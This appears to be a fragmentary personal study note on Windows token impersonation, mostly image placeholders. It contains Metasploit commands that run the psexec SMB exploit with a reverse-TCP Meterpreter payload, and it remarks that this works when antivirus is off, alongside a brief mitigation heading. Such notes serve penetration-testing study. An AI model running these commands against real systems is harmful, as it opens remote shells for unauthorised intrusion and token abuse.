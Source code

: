 msf5 > use exploit/windows/smb/psexec
   
![Exported image](Exported%20image%2020241208212339-0.png)  

set payload windows/x64/meterpreter/reverse_tcp
 
set lhost eth0
 
works if antivirus is off…
 ![Exported image](Exported%20image%2020241208212340-1.png)  
![Exported image](Exported%20image%2020241208212344-2.png)  
![Exported image](Exported%20image%2020241208212345-3.png)  
![Exported image](Exported%20image%2020241208212346-4.png)   
Can impersonate token until the comp is rebooted:
 ![Exported image](Exported%20image%2020241208212346-5.png)  

the token will be sitting there until they reboot.
 
Token Impersonation Mitigation:

![Exported image](Exported%20image%2020241208212348-6.png)  

Special account (yuki-a ) to log into the domain controller